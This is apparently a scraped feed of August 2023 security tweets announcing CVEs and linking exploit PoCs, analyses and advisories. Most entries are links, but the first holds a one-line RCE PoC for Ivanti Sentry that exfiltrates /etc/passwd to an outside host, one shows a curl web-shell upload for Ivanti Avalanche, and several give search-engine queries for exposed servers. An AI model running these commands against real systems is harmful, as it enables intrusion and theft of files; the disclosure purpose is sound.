# win3zz
**https://twitter.com/win3zz/status/1696779640457834545 _at 2023-08-30, 06:59:25_**
<blockquote>
CVE-2023-38035 - Unauth. RCE

PoC: 👇
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd https://t.co/ZhRonPoqrv', 'isRoot': True}, None)" https://t.co/OkkkK2Vn8H
</blockquote>

* http://BURP-COLLABORATOR-URL.com

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>226</code></td>
</tr></table>

---

# Y4er_ChaBug
**https://twitter.com/Y4er_ChaBug/status/1696449641976643811 _at 2023-08-29, 09:08:07_**
<blockquote>
After two days, I finally reproduced the CVE-2023-39476 Inductive Automation Ignition JavaSerializationCodec Deserialization RCE vulnerability submitted to ZDI by @steventseeley https://t.co/gEeWYoGaW1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1696139580288668010 _at 2023-08-28, 12:36:03_**
<blockquote>
RaRCE, Exploit generator for CVE-2023-38831

An easy to install and easy to run tool for generating exploit payloads for CVE-2023-38831, WinRAR RCE before versions 6.23

https://t.co/XR9mvOWlJo

#infosec #pentesting #redteam https://t.co/pKascIzBg3
</blockquote>

* https://github.com/ignis-sec/CVE-2023-38831-RaRCE

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>293</code></td>
</tr></table>

---

# S0ufi4n3
**https://twitter.com/S0ufi4n3/status/1695496527874060793 _at 2023-08-26, 18:00:47_**
<blockquote>
A Proof of Concept for chaining the CVEs [CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847] developed by watchTowr to achieve Remote Code Execution in Juniper JunOS within SRX and EX Series products.

 https://t.co/TnhrXIeucq
</blockquote>

* https://github.com/watchtowrlabs/juniper-rce_cve-2023-36844

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1695485778900746705 _at 2023-08-26, 17:18:04_**
<blockquote>
Winrar_CVE-2023-38831_lazy_poc
https://t.co/N8sKq8Negh
</blockquote>

* https://github.com/BoredHackerBlog/winrar_CVE-2023-38831_lazy_poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1695402248228966868 _at 2023-08-26, 11:46:09_**
<blockquote>
CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847: Remote Code Execution in Juniper JunOS within SRX and EX Series products.
PoC
https://t.co/ZfXtoVqdhR https://t.co/piyjaWNXCw
</blockquote>

* https://github.com/watchtowrlabs/juniper-rce_cve-2023-36844

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# Netlas_io
**https://twitter.com/Netlas_io/status/1695133944511873259 _at 2023-08-25, 18:00:01_**
<blockquote>
CVE-2023-40176, -40177, -40572, -40573: Multiple vuln in XWiki, 9.0-9.9 rating 🔥

Fresh RCE, Privelege Escalation and stored XSS in XWiki Platform.

Search at https://t.co/hv7QKSqxTR:
👉 Link: https://t.co/HBmQiaDgBw

#cybersecurity #vulnerability_map https://t.co/uB5BOS2kx2
</blockquote>

* http://Netlas.io
* https://nt.ls/SSzCU

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# FortiGuardLabs
**https://twitter.com/FortiGuardLabs/status/1695122493453844856 _at 2023-08-25, 17:14:30_**
<blockquote>
#FortiGuardLabs Threat Signal Report: Adobe ColdFusion Deserialization of Untrusted Data Vulnerabilities (CVE-2023-26359, CVE-2023-26360) ⮕ https://t.co/G7Qoiy9oTq https://t.co/Ey1RqXt8uH
</blockquote>

* https://ftnt.net/6013PUFWP

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>129</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1694960297688351025 _at 2023-08-25, 06:30:00_**
<blockquote>
🚨Alert🚨 CVE-2023-41106 #Zimbra Collaboration Suite's one-click vulnerability could allow unauthenticated access

📎 https://t.co/fhG5behrqp

🔗Shodan http.title:"Zimbra Web Client Sign In"
🔗FOFA title="Zimbra Web Client Sign In"

Refer to 📰
https://t.co/A0D2pL4fJn https://t.co/GFZaabajvz
</blockquote>

* https://hunter.how/list?searchValue=product.name%3D%22Zimbra%22
* https://securityonline.info/cve-2023-41106-zimbra-collaboration-suite-vulnerability-could-allow-unauthenticated-access/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1694956245742923939 _at 2023-08-25, 06:13:54_**
<blockquote>
Ivanti Avalanche CVE-2023-32563:

curl -v http://192.168.56.101:1900/Servlet/Skins -F guid=../../../Web/webapps/ROOT -F "file=@-;filename=x.jsp" &lt;&lt;&lt;'&lt;%Runtime.getRuntime().exec(request.getParameter("c"));%&gt;' -: -k https://192.168.56.101:8443/x.jsp -d c=mspaint.exe
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>175</code></td>
</tr></table>

---

# filip_dragovic
**https://twitter.com/filip_dragovic/status/1694322560349974894 _at 2023-08-23, 12:15:52_**
<blockquote>
Here is PoC for LPE in Windows Error Reporting Service CVE-2023-36874

https://t.co/sodVtsvBeu
</blockquote>

* https://github.com/Wh04m1001/CVE-2023-36874

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>129</code></td>
<td>Favorites: <code>302</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1694286944468103318 _at 2023-08-23, 09:54:20_**
<blockquote>
WinRAR 0day CVE-2023-38831
If you are using WinRAR, please make sure to update it.
https://t.co/JCp8ahNBQ6 https://t.co/yEAkxd4Mti
</blockquote>

* https://www.group-ib.com/blog/cve-2023-38831-winrar-zero-day/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>173</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1694107990775759106 _at 2023-08-22, 22:03:14_**
<blockquote>
CVE-2023-38035, announced yesterday, effects #Ivanti #Sentry and enables a remote attacker to achieve remote code execution as root. 

Blog post detailing IOCs, technical deep-dive, and exploit POC to be released later this week.

https://t.co/Dz1VvtPmxr https://t.co/NYcXDYyVJa
</blockquote>

* https://forums.ivanti.com/s/article/KB-API-Authentication-Bypass-on-Sentry-Administrator-Interface-CVE-2023-38035?language=en_US

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>138</code></td>
</tr></table>

---

# catc0n
**https://twitter.com/catc0n/status/1693694258077655370 _at 2023-08-21, 18:39:13_**
<blockquote>
Full SonicWall GMS unauthenticated RCE chain via several recent CVEs, including CVE-2023-34127, courtesy of @iagox86 and @fulmetalpackets. Metasploit exploit PR up today, too! https://t.co/dqzAsxNq4w
</blockquote>

* https://attackerkb.com/topics/Vof5fWs4rx/cve-2023-34127/rapid7-analysis

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# 0vercl0k
**https://twitter.com/0vercl0k/status/1693645355928154362 _at 2023-08-21, 15:24:53_**
<blockquote>
At the end on 2021, I spent a week porting https://t.co/vZoBaD91pb to learn about ARM64 MMU. I found a weird bug in Google's Fuchsia MMU subsystem (CVE-2021-22566) 🔮🪲

It recently got derestricted, so sharing it in case somebody finds it interesting: https://t.co/XlKRlBfM6h 🙏🏽 https://t.co/yY860cRkh5
</blockquote>

* https://github.com/0vercl0k/clairvoyance
* https://bugs.fuchsia.dev/p/fuchsia/issues/detail?id=88451

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>232</code></td>
</tr></table>

---

# Big5_sec
**https://twitter.com/Big5_sec/status/1692660567272489229 _at 2023-08-18, 22:11:42_**
<blockquote>
Here is a little analysis of @masthoon's CVE-2023-29360, a beautiful LPE he used during last Pwn2own: https://t.co/m4P72rsXCr https://t.co/RLGnYzpBw3
</blockquote>

* https://big5-sec.github.io/posts/CVE-2023-29360-analysis/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>96</code></td>
<td>Favorites: <code>183</code></td>
</tr></table>

---

# LiveOverflow
**https://twitter.com/LiveOverflow/status/1692532608767332475 _at 2023-08-18, 13:43:14_**
<blockquote>
Did you know that the CPU vuln "Zenbleed" 🩸 (CVE-2023-20593) was found through fuzzing?

I was able to talk to @taviso and learned about his novel approach 🤯 it is so clever!! https://t.co/ooo58vtySe
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>138</code></td>
<td>Favorites: <code>701</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1692472298698166559 _at 2023-08-18, 09:43:35_**
<blockquote>
CVE-2023-40477: WinRAR Code Execution Vulnerability https://t.co/bVyIC7Zaxv
</blockquote>

* https://securityonline.info/cve-2023-40477-winrar-code-execution-vulnerability/

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>287</code></td>
<td>Favorites: <code>691</code></td>
</tr></table>

---

# zoomeye_team
**https://twitter.com/zoomeye_team/status/1692110845197902308 _at 2023-08-17, 09:47:18_**
<blockquote>
🌏Oracle WebLogic Server remote code execution vulnerability（#CVE-2023-21839）

#ZoomEyeDork app:"Oracle WebLogic Server"

About 2,621,323 results,check it on https://t.co/rLs05PLP09

#Cyberspacemapping #cybersecurity #OSINT #Oracle #WebLogicServer https://t.co/mF7XGqGNAv
</blockquote>

* https://www.zoomeye.org/searchResult?q=app%3A%22Oracle%20WebLogic%20Server%22

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# TecR0c
**https://twitter.com/TecR0c/status/1692066840015712694 _at 2023-08-17, 06:52:26_**
<blockquote>
I recently identified a Remote Code Execution vulnerability, CVE-2023-35371, impacting Microsoft Office 365, Office 2019 for Mac, and Office LTSC for Mac 2021 due to a double free vulnerability. I'd like to thank the @msftsecresponse team for addressing this in the recent Patch…
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1691852944906305958 _at 2023-08-16, 16:42:29_**
<blockquote>
⚠️ We are continuing to monitor CVE-2023-24489 (Citrix ShareFile RCE) exploit activity closely. All flagged IPs are marked malicious. There's been a huge spike in activity today. Make sure your systems are up to date with the latest patches. https://t.co/AlgCE57QH6
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>116</code></td>
</tr></table>

---

# akaclandestine
**https://twitter.com/akaclandestine/status/1691756831037628826 _at 2023-08-16, 10:20:34_**
<blockquote>
#exploit
1. WPS Office RCE
https://t.co/6kubJv6doW

2. CVE-2023-33242:
Lindell17 ECDSA Private Key information disclosure
https://t.co/LSdZspX9ww
</blockquote>

* https://github.com/ba0gu0/wps-rce
* https://github.com/d0rb/CVE-2023-33242

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1690767791433846784 _at 2023-08-13, 16:50:29_**
<blockquote>
CVE-2023-0179 exploit affecting all Linux versions from 5.5 to 6.2-rc3
https://t.co/xIznoG5KkJ
</blockquote>

* https://github.com/TurtleARM/CVE-2023-0179-PoC

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>211</code></td>
</tr></table>

---

# infosec_au
**https://twitter.com/infosec_au/status/1689467388708937728 _at 2023-08-10, 02:43:08_**
<blockquote>
In the last post of the series, my colleague explains the process that went into re-discovering the Citrix ADC / Netscaler RCE CVE-2023-3519. We also share an exploit for this vulnerability. Check out our blog if you want to learn more about the process: https://t.co/7csA4tlwA1 https://t.co/8rX2Jnmtzq
</blockquote>

* https://blog.assetnote.io/2023/08/09/exploiting-citrix-netscaler-cve-2023-3519/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>203</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1689214942413737984 _at 2023-08-09, 10:00:01_**
<blockquote>
🚨Alert🚨 🩹#Microsoft Patch Tuesday🔨⚙️ 
Keep an 👀 eye on CVE-2023-38182 and CVE-2023-35388(#Exchange RCE)

🧷 https://t.co/D4e39xFXWj

🔖 Refer to: 
https://t.co/YBvcyXKen7
#infosec #infosecurity https://t.co/NyHWlS8rv8
</blockquote>

* https://hunter.how/list?searchValue=product.name%3D%22Outlook%20Web%20App%22
* https://thehackernews.com/2023/08/microsoft-releases-patches-for-74-new.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# KeyZ3r0
**https://twitter.com/KeyZ3r0/status/1689103131031035904 _at 2023-08-09, 02:35:43_**
<blockquote>
Finally MSRC fix all my reports on CNG Key isolation including 6 UaFs and 2 OOBr. Actually I have already completed full exploit with CVE-2023-28229 and CVE-2023-36907 which could lead to escape from AppContainer sandbox, I will share this exploitation on my blog asap.😀 https://t.co/nsLT3egrpd
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---

# irsdl
**https://twitter.com/irsdl/status/1688977538834399238 _at 2023-08-08, 18:16:39_**
<blockquote>
Cookieless DuoDrop: IIS Auth Bypass &amp; App Pool Privesc in ASP .NET Framework (CVE-2023-36899)

https://t.co/tCulyANgJk

#Appsec #bugbountytips https://t.co/pKapUpshIR
</blockquote>

* https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>180</code></td>
<td>Favorites: <code>433</code></td>
</tr></table>

---

# _mattata
**https://twitter.com/_mattata/status/1688559899796549632 _at 2023-08-07, 14:37:06_**
<blockquote>
And there it is! Mass-exploitation of Citrix ADC Remote code execution CVE-2023-3519, right as everyone is migrating to Vegas 🫠
https://t.co/4HpdVONvBI https://t.co/s2tvajJ0jg
</blockquote>

* https://viz.greynoise.io/tag/citrix-adc-netscaler-cve-2023-3519-rce-attempt?days=3

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1688075004007641088 _at 2023-08-06, 06:30:18_**
<blockquote>
Format string vulnerability leading to stack canary leak: analysis of cve-2022-1215 affecting libinput
Nice blog post by @hyprdude

https://t.co/Rxw8AxTESf

#cve #infosec #cybersecurity https://t.co/yp3BqAmjjr
</blockquote>

* http://blog.coffinsec.com/nday/2022/08/04/CVE-2022-1215-libinput-fmt-canary-leak.html

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>182</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1688034634712657920 _at 2023-08-06, 03:49:53_**
<blockquote>
Citrix ADC RCE CVE-2023-3519
This exploit uses addresses and shellcode for Citrix VPX 13.1-48.47.
https://t.co/4isWgdXjTM
</blockquote>

* https://github.com/BishopFox/CVE-2023-3519

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>106</code></td>
